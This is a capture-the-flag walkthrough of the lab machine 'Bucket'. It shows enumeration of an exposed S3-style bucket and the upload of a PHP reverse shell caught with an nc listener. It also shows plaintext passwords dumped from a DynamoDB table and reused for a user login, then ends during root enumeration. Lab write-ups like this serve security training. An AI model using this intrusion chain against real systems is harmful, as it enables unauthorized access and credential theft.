

<br />


<br />

OS -> Linux.

Difficulty -> Medium.

<br />

# Introduction:

<br />


<br />

# Enumeration:

<br />

We start by running the typical `nmap` scan to see which ports are open:

<br />

```bash
❯ nmap -p- 10.10.10.212 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-11 19:33 CEST
Nmap scan report for 10.10.10.212
Host is up (0.041s latency).
Not shown: 65221 closed tcp ports (reset), 312 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://bucket.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.65 seconds
```

<br />

Open Ports:

- `Port 22` -> ssh

- `Port 80` -> http

<br />

# Http Enumeration: -> Port 80

<br />

Visiting the website returns a `302 found` status code, redirecting to `bucket.htb`.

So, we add it to the `/etc/hosts` and we can list its contents:

<br />


<br />

The page is completely `static` and doesn't have any function, only some hacking articles, but inspecting the `source code` we found something:

<br />



<br />

## Amazon S3 Bucket:

<br />

It's an `Amazon S3 Bucket` subdomain!!

The site uses a bucket to `store` the images of the articles we saw earlier and most likely the rest of its `resources` as well.

<br />


<br />

When we access the base URL, it shows the typical `"status: running"` message:

<br />


<br />

If we do some `research` on Google we can discover how to `enumerate` a bucket with `aws cli`.

To do it, the first thing, is to `configure` this tool:

<br />

```bash
❯ aws configure
AWS Access Key ID [None]: test
AWS Secret Access Key [None]: test
Default region name [None]: us-east-1
Default output format [None]: test
```

<br />

Now we can start enumerating the available `buckets`:

<br />

```bash
❯ aws s3 ls s3:// --endpoint-url=http://s3.bucket.htb
2025-04-11 20:28:03 adserver
```

<br />

There is only one bucket on this server called `"adserver"`.

With the following command, we can see its contents:

<br />

```bash
❯ aws s3 ls s3://adserver --endpoint-url=http://s3.bucket.htb
                           PRE images/
2025-04-11 20:30:04       5344 index.html
```

<br />

And if we add the `--recursive` flag, we can see the files inside the `"images"` directory:

<br />

```bash
❯ aws s3 ls s3://adserver --endpoint-url=http://s3.bucket.htb --recursive
2025-04-11 20:32:03      37840 images/bug.jpg
2025-04-11 20:32:03      51485 images/cloud.png
2025-04-11 20:32:04      16486 images/malware.png
2025-04-11 20:32:04       5344 index.html
```

<br />

Cool, we have `access` to the bucket and we can `list` it contents.

What if we try to `upload` something?

<br />

```bash
❯ echo "This is a test to probe if we have write permissions in this bucket :D" > test.txt
❯ aws s3 cp test.txt s3://adserver/test.txt --endpoint-url=http://s3.bucket.htb
upload: ./test.txt to s3://adserver/test.txt
```

<br />

Yes! We can upload `files`!

<br />


<br />

At this point, we can try to upload a `malicious` PHP reverse shell and if the website allows PHP `execution`, we might gain access to the victim machine.

To do it, we can use the `php` reverse shell of [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) GitHub repository:

<br />

```bash
❯ aws s3 cp reverseshell.php s3://adserver/reverseshell.php --endpoint-url=http://s3.bucket.htb
upload: ./reverseshell.php to s3://adserver/reverseshell.php
```

<br />

Now we load the `reverse shell` page and check our listener:

<br />

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.212] 33860
Linux bucket 5.4.0-48-generic 52-Ubuntu SMP Thu Sep 10 10:58:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:06:02 up  1:41,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

<br />

Perfect! We are in as `www-data`!

<br />

# Privilege Escalation: www-data -> roy

<br />

Once in the system, we start enumerating the user directory -> `/home/roy`:

<br />

```bash
www-data@bucket:/home/roy$ ls
project  user.txt
www-data@bucket:/home/roy$ cat user.txt
cat: user.txt: Permission denied
```

<br />

There is a directory named `"project"` and the user.txt flag, but we can't get it:

<br />

## DynamoDB Enumeration:

<br />

If we enter this directory, we can see some `files`, including a very interesting one with `useful` information:

<br />

```php
<?php
require 'vendor/autoload.php';
date_default_timezone_set('America/New_York');
use Aws\DynamoDb\DynamoDbClient;
use Aws\DynamoDb\Exception\DynamoDbException;

$client = new Aws\Sdk([
    'profile' => 'default',
    'region'  => 'us-east-1',
    'version' => 'latest',
    'endpoint' => 'http://localhost:4566'
]);

$dynamodb = $client->createDynamoDb();

//todo
```

<br />

Aws is using a `DynamoDB` database!

<br />


<br />

This database is hosted on `localhost:4566`, but since it's running on the same `AWS` service as the bucket, we can enumerate it from our attacking machine using the same `endpoint`.

We start listing the available `tables`:

<br />

```bash
❯ aws dynamodb list-tables --endpoint-url=http://s3.bucket.htb --output json
{
    "TableNames": [
        "users"
    ]
}
```

<br />

There is only one.

Using the `scan` option, we can `dump` its content:

<br />

```bash
❯ aws dynamodb scan --table-name users --endpoint-url=http://s3.bucket.htb --output json
{
    "Items": [
        {
            "password": {
                "S": "Management@#1@#"
            },
            "username": {
                "S": "Mgmt"
            }
        },
        {
            "password": {
                "S": "Welcome123!"
            },
            "username": {
                "S": "Cloudadm"
            }
        },
        {
            "password": {
                "S": "n2vM-<_K_Q:.Aa2"
            },
            "username": {
                "S": "Sysadm"
            }
        }
    ],
    "Count": 3,
    "ScannedCount": 3,
    "ConsumedCapacity": null
}
```

<br />

Nice! We found several `passwords`.

Trying one by one, we finally get a good one that works to `roy` user:

<br />

```bash
roy@bucket:~$ id
uid=1000(roy) gid=1000(roy) groups=1000(roy),1001(sysadm)
roy@bucket:~$ cat user.txt
0ac4bcc7594c64dd4822867183xxxxxx
```

<br />

# Privilege Escalation: roy -> root 

<br />

Continuing our enumeration, we use `"netstat"` and find an interesting port, the `8000` one:

<br />

```bash
roy@bucket:/var/www/bucket-app$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:39051         0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:4566          0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:4566          127.0.0.1:39016         TIME_WAIT  
tcp        0      1 10.10.10.212:49992      1.0.0.1:53              SYN_SENT   
tcp        0      0 127.0.0.1:4566          127.0.0.1:39022         TIME_WAIT  
tcp        0    138 10.10.10.212:42778      10.10.14.15:443         ESTABLISHED
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 10.10.10.212:80         10.10.14.15:60726       ESTABLISHED
```

<br />

We can do a `Port Forwarding`:

<br />

```bash
❯ ssh roy@10.10.10.212 -L 8000:127.0.0.1:8000
```

<br />

And list it:

<br />


<br />

It is a simple website under construction.

But if we look more deeper, we find under `/var` the directory of this `website`, a directory called  `"bucket-app"`.

<br />

```bash
roy@bucket:/var/www$ ls -l
total 8
drwxr-x---+ 4 root root 4096 Feb 10  2021 bucket-app
drwxr-xr-x  2 root root 4096 Apr 11 23:21 html
```

<br />

User `roy` can access this directory.

This is interesting because even though the directory is owned by `root`, the permissions allow access to `roy` thanks to the extended `ACL` (+ sign), which means there may be readable or writable files useful for `privilege escalation`.

<br />

```bash
roy@bucket:/var/www/bucket-app$ ls -l
total 848
-rw-r-x---+  1 root root     63 Sep 23  2020 composer.json
-rw-r-x---+  1 root root  20533 Sep 23  2020 composer.lock
drwxr-x---+  2 root root   4096 Feb 10  2021 files
-rwxr-x---+  1 root root  17222 Sep 23  2020 index.php
-rwxr-x---+  1 root root 808729 Jun 10  2020 pd4ml_demo.jar
drwxr-x---+ 10 root root   4096 Feb 10  2021 vendor
```

<br />
